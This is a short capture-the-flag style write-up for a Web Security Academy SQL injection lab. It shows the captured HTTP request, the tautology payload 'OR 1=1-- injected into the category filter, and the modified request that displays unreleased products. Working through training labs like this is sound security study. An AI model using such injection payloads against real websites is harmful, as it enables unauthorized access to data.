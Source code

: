 *This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.*

Greeted with a home page with all the products. I clicked on the category *Gifts* and checked my HTTP History to see the request made: 
```Burp 
GET /filter?category=Gifts HTTP/2
Host: 0aec00570471e35680ee49f900bd0053.web-security-academy.net
Cookie: session=903nXpdEpJu5GGuQE5dPlKc1000JTccy
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec00570471e35680ee49f900bd0053.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

Decided to send this to the Repeater and modify the query with the following injection : 
`'OR 1=1--` , so that the query is now : 

``SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1``
%% Be sure not to include a space between 1 and `--`%%

This retrieves all the products available and removes the restriction. 

Hence, the modified request in Repeater will look like this : 
```Burp 
GET /filter?category=Gifts'OR 1=1-- HTTP/2
Host: 0aec00570471e35680ee49f900bd0053.web-security-academy.net
Cookie: session=903nXpdEpJu5GGuQE5dPlKc1000JTccy
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aec00570471e35680ee49f900bd0053.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

This solves the lab!
![[Screenshot 2024-05-01 at 6.07.03 PM.png]]
